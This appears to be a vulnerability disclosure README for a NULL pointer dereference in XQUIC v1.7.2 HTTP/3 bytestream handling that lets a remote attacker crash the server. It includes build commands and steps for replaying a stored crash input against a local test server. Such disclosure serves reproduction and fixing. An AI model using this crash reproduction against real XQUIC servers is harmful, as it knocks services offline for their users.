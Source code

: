 # Bug M8

## Product: XQUIC (Alibaba.inc)
### Github repository: [https://github.com/alibaba/xquic](https://github.com/alibaba/xquic)
### Affected version: [v1.7.2](https://github.com/alibaba/xquic/releases/tag/v1.7.2)
### Fixed version: N/A

### Bug summary:
A NULL pointer dereference causes the server to crash, which can result in a Denial of Service attack.

### Bug details: 
Xquic attempts to access a NULL pointer (```*bs```) when 
- checking whether application data is available at ```v1.7.2:src/http3/xqc_h3_ext_bytestream.c:631```
- handling the FIN bit in the byte stream at ```v1.7.2:src/http3/xqc_h3_ext_bytestream.c:552```.

### Attack vector:
Remote attacker.

### PoC
Build the xquic test_server as described in the following (assumed you are in same directory as this README.md):
```bash
git clone https://github.com/alibaba/xquic.git
cd xquic

git clone https://github.com/google/boringssl.git ./third_party/boringssl
cd ./third_party/boringssl
git checkout afd52e91
git apply ../../../boringssl_for_developers.patch
mkdir -p build && cd build
cmake -DBUILD_SHARED_LIBS=0 -DCMAKE_C_FLAGS="-fPIC" -DCMAKE_CXX_FLAGS="-fPIC" ..
make ssl crypto
cd ..
export SSL_TYPE_STR="boringssl"
export SSL_PATH_STR="${PWD}"
cd ../..
git submodule update --init --recursive
git apply ../xquic_for_developers.patch
mkdir -p build; cd build
cmake -DCMAKE_C_FLAGS="-fsanitize=address" -DCMAKE_CXX_FLAGS="-fsanitize=address" -DCMAKE_EXE_LINKER_FLAGS="-fsanitize=address" -DGCOV=on -DCMAKE_BUILD_TYPE=Debug -DXQC_ENABLE_TESTING=1 -DXQC_SUPPORT_SENDMMSG_BUILD=1 -DXQC_ENABLE_EVENT_LOG=1 -DXQC_ENABLE_BBR2=1 -DXQC_ENABLE_RENO=1 -DSSL_TYPE=${SSL_TYPE_STR} -DSSL_PATH=${SSL_PATH_STR} ..
make -j
cd ../..

# start the server
xquic/build/tests/test_server -a 127.0.0.1 -p 4433
```
Open another terminal, build the replay_crash program and run with the given crash input (assumed you are in same directory as this README.md):
```bash
cd ..
make
cd m8
../replay_crash xquic_crash 4433
```
